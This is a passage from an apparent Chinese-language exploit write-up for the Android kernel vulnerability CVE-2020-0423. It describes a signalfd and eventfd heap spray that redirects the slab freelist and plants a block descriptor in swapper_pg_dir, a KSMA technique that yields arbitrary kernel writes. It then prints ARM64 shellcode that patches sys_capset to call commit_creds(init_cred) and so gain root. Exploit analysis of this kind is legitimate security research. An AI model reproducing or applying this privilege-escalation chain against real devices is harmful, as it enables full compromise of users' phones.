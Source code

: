   sigdelsetmask(&sigmask, sigmask(SIGKILL) | sigmask(SIGSTOP));signotset(&sigmask);会导致在我们的值上 | 40100，因而我们不直接写上swapper_pg_dir地址，否则不会malloc到上面去,因为地址变成了（swapper_pg_dir |  0x40100）
  
  ![](/root/linux-kernel/android_cve/cve-2020-0423/swapper_alloc_signalfd_issue.png)
  
  对此，作者想了别的方法
  
  ,有点复杂
  
  首先找了一个足够大的完全用0填充的内核内存区域（| 0x40100）还在其中，作者在这里选择了ipa_testbus_mem ，0x198000大小的缓冲区，利用被重叠的signalfd覆盖free的对象，修改freelist为
  
  ipa_testbus_mem | 0x40100,所以下次分配的地址为ipa_testbus_mem | 0x40100
  
  ![](/root/linux-kernel/android_cve/cve-2020-0423/swapper_alloc_1.png)
  
  ```c
  struct eventfd_ctx {
      struct kref kref;
      wait_queue_head_t wqh;
      /*
       * Every time that a write(2) is performed on an eventfd, the
       * value of the __u64 being written is added to "count" and a
       * wakeup is performed on "wqh". A read(2) will return the "count"
       * value to userspace, and will reset "count" to zero. The kernel
       * side eventfd_signal() also, adds to the "count" counter and
       * issue a wakeup.
       */
      __u64 count;
      unsigned int flags;
  };
  ```
  
  之后使用eventfd_ctx来堆喷，eventfd_ctx的count 我们是可以写入任意值 ，偏移为0x20,向count写入（swapper_pg_dir+ 0x1e0 *8）COUNT+0XB5F00也就是我们需要填入block descriptor的地址
  
  ![](/root/linux-kernel/android_cve/cve-2020-0423/swapper_alloc_3.png)

接着free掉所有的eventfd,重新利用重叠的signalfd设置freelist为ipa_testbus_mem | 0x40100 + 0x20(count的位置)，接着再次喷射signalfd ,并写入 `0x00e8000080000751`，由此ksma攻击完成，我们可以修改任意kernel code 和kernel data了

### 提权

这一步，是想怎么来就怎么来了，作者在这里patch掉capset,将它改为如下shell code

```c
uint64_t sys_capset_addr = base + 0x80000 + SYS_CAPSET;
uint64_t init_cred_addr = kaslr_leak + INIT_CRED;
uint64_t commit_creds_addr = kaslr_leak + COMMIT_CREDS;

uint32_t shellcode[] = {
    // commit_creds(init_cred)
    0x58000040, // ldr x0, .+8
    0x14000003, // b   .+12
    LO_DWORD(init_cred_addr),
    HI_DWORD(init_cred_addr),
    0x58000041, // ldr x1, .+8
    0x14000003, // b   .+12
    LO_DWORD(commit_creds_addr),
    HI_DWORD(commit_creds_addr),
    0xA9BF7BFD, // stp x29, x30, [sp, #-0x10]!
    0xD63F0020, // blr x1
    0xA8C17BFD, // ldp x29, x30, [sp], #0x10

    0x2A1F03E0, // mov w0, wzr
    0xD65F03C0, // ret
};
```